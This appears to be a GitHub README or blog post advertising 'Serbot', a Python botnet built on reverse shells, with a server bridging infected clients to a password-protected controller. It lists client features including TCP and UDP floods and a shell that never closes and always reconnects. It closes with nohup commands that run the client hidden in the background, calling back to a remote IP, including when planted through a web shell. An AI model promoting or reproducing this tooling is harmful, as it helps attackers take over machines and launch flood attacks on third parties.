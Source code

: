 Hello everyone,

![alt tag](https://dotcppfile.files.wordpress.com/2014/11/rsz_1rsz_serbot.png)

Serbot is hot, keep reading Lol.

So, lets just get to the point, I’ve showed you [Awrs](http://dotcppfile.wordpress.com/2014/11/03/awrs-advanced-clientserver-windowslinux-python-reverse-shell/) and what it’s capable of, considered as one of the best Reverse Shells I’ve decided to Update Awrs and create Serbot and no, it’s not what you think Lol.

Serbot is an advanced version of Awrs where the Server can be managed by 1 Controller at a time.
######Example:
Server hosted on 15.48.158.15 and accepts up to 100 clients through port 1567, accepts 1 Controller at a time through port 2357 and the Controller’s functions are protected with a password: “IAmAPassword”
Client 1 hosted on 86.58.157.25 connected to 15.48.158.15:1567
Client 2 hosted on 78.459.17.35 connected to 15.48.158.15:1567
Controller running on my own computer connected to the Server on 15.48.158.15:2357 using the valid password “IAmAPassword”

In Serbot’s case, the Server also plays the role of a Bridge between the Clients and the Controller. This should sum things up. There’s a lot of benefits out of this now that’s for sure. A team of Researches or Hacktivists can now interact with all their clients using their Controllers, they don’t have to worry about portforwading, reverse shell’s stability and speed etc and they’re all sharing everything they have control on in one place.

In Serbot, everything was dealt with, your Server will never crash nor will your Clients no matter what, check the features list below for more info:

#####Server:
1. Linux/Windows Version.
1. Multi Handler. Can handle multiple connections all at once.
1. Bridge. Plays also the roll of a Bridge between the Clients and the Controller.
1. The Controller’s connection requires a plain text password, it’s not the best but it’s more than enough when it comes to keeping “l337 hax0rz b0t tak30v3r” away.
1. Accepts only 1 Controller at a time.
1. Kicks the Controller after 10 mins. This was added just in case someone forgot his Controller on which won’t allow other controllers to connect (since the Server only accepts 1 controller at a time).
1. Uses a very small amount of CPU and RAM when running.
1. Fast and Stable.

#####Client:
1. Linux/Windows Version.
1. TCP Flood.
1. UDP Flood.
1. You’ll never lose your shell. (Commands with No Output, Wrong Commands and Interactive Programs won’t kill your shell)
1. Never closes and is always trying to connect to the Server.
1. Can handle any command properly, such as the cd command.
1. Always gets back a response. (Command Output or Simple Client response)
1. Uses a very small amount of CPU and RAM when running.
1. Fast and Stable.

#####Controller:
1. Linux/Windows Version.
1. Handles all commands perfectly.
1. Handles any stupidity (KeyboardInterrupts, empty commands, etc) perfectly.
1. Uses a very small amount of CPU and RAM when running.
1. Easy user interface.
1. Fast and Stable.

This list isn’t enough but that’s all that I can think of right now. If you want to know how stable Serbot is then you have to try and code something similar to it Lol because then you’ll know that it handles everything you’re facing when it comes to bugs, errors, commands etc…

You simply have to remove the “#!/usr/bin/env python2″ at the top of every script to get this up and running on windows.

#####Extra:
If you’re trying to activate the Client threw ssl, shell or web shell then you have to run the Client.py in another process in the background or else your shell will dive into an endless loop and the best way to do that in Linux would be using nohup.

######Example:
nohup python client.py 15.48.158.15 1567 > /dev/null &
nohup python client.py 15.48.158.15 1567 > /dev/null 2>&1 &

Greetings to Team Prophetic, Chaoshackerz and all the followers of https://dotcppfile.wordpress.com/,
That’s all for today,
dotcppfile.
